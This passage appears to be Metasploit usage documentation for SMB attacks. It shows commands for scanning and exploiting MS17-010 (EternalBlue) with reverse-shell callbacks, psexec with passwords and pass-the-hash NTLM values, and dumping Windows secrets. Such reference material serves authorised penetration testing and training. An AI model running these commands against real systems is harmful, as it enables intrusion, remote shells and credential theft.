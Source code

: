 Metasploit has a module for MS17-010, dubbed Eternal Blue, which has the capability to target Windows 7, Windows 8.1, Windows 2012 R2, and Windows 10.

Checking for exploitability:

```
use auxiliary/scanner/smb/smb_ms17_010
check 10.10.10.23
check 10.10.10.0/24
check smb://user:pass@10.10.10.1/
check smb://domain;user:pass@10.10.10.1/
check cidr:/24:smb://user:pass@10.10.10.0 threads=32
```

As of 2021, Metasploit supports a single exploit module for which has the capability to target Windows 7, Windows 8.1, Windows 2012 R2, and Windows 10, full details within the [Metasploit Wrapup](https://www.rapid7.com/blog/post/2021/07/16/metasploit-wrap-up-121/):

```
use exploit/windows/smb/ms17_010_eternalblue
run 10.10.10.23 lhost=192.168.123.1
run 10.10.10.0/24 lhost=192.168.123.1 lport=5000
run smb://user:pass@10.10.10.1/ lhost=192.168.123.1
run smb://domain;user:pass@10.10.10.1/ lhost=192.168.123.1
```

### SMB psexec

Running psexec against a remote host with credentials:

```
use exploit/windows/smb/psexec
run smb://user:pass8@192.168.123.13 lhost=192.168.123.1 lport=5000
```

Running psexec with NTLM hashes:

```
use exploit/windows/smb/psexec
run smb://Administrator:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6@10.10.10.161 lhost=10.10.14.13 lport=5000
```

### SMB Dumping

Dumping secrets with credentials:

```
use auxiliary/gather/windows_secrets_dump
run smb://user:pass@192.168.123.6
```

Dumping secrets with NTLM hashes

```
use auxiliary/gather/windows_secrets_dump
run smb://Administrator:aad3b435b51404eeaad3b435b51404ee:15feae27e637cb98ffacdf0a840eeb4b@192.168.123.1
```
